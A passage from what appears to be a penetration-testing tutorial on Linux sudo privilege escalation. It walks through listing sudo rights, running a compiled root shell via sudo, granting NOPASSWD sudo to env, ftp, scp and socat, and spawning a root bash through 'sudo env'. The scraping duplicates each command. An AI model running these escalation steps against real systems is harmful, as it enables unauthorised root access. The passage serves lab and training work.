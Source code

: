 After compromising the target system and then move for privilege escalation and execute below command to view the sudo user list.  

sudo -l

1

sudo  \-l

Here you can perceive the highlighted text is indicating that the user raaz can run shell (asroot.c compiled file) as the root user. So we obtained root access by executing the following shell.  

sudo /bin/script/shell id

1

2

sudo  /bin/script/shell

id

![](https://i1.wp.com/3.bp.blogspot.com/-VPe-tKOmB1Q/WwZTYTF5yII/AAAAAAAAXBs/x4LLW7vB--sErAKEOv1tse1hCh7nEJhAgCLcBGAs/s1600/29.png?w=687)  

### **Allow Sudo Right to other Programs**

As we have seen above, some binary programs with sudo right are helpful in getting root access. But apart from that, there are some application which can also provide root access if owned sudo privilege such as FTP or socat.  In given below command we have assign sudo rights to the following program which can be run as root user.  

raaz ALL=(ALL) NOPASSWD: /usr/bin/env, /usr/bin/ftp, /usr/bin/scp, /usr/bin/socat

1

raaz ALL\=(ALL)  NOPASSWD:  /usr/bin/env,  /usr/bin/ftp,  /usr/bin/scp,  /usr/bin/socat

![](https://i2.wp.com/2.bp.blogspot.com/-J8xJCvskWHQ/W3BOhzc1seI/AAAAAAAAZsA/Emu2n-Fn4VYgh7Dz2epWMeve1sscjpL8QCLcBGAs/s1600/0.png?w=687)  

### **Spawn Shell Using Env**

 At the time of privilege escalation phase, executes below command to view sudo user list.  

sudo -l

1

sudo  \-l

As we can observe user: raaz has sudo rights for env, FTP, SCP, and Socat, now let’s try to get root access through them one-by-one.  

sudo env /bin/bash whoami

1

2

sudo env  /bin/bash

whoami
